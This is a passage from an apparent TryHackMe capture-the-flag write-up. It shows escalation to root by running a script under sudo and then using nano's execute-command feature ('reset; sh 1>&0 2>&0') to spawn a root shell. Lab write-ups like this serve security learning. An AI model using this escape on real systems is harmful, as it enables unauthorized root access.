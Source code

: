```
$ export TERM=xterm
$ sudo /bin/bash /opt/rootkit.sh
$ read
```

![opt](/assets/img/tryhackme/gallery/opt.png)

After typing `read`, nano will open. Then we will do the following in order:

``` 
   ^R^X
   reset; sh 1>&0 2>&0
```

![execute](/assets/img/tryhackme/gallery/execute.png)

And we are `root`. Yes!

![rootin](/assets/img/tryhackme/gallery/rootin.png)
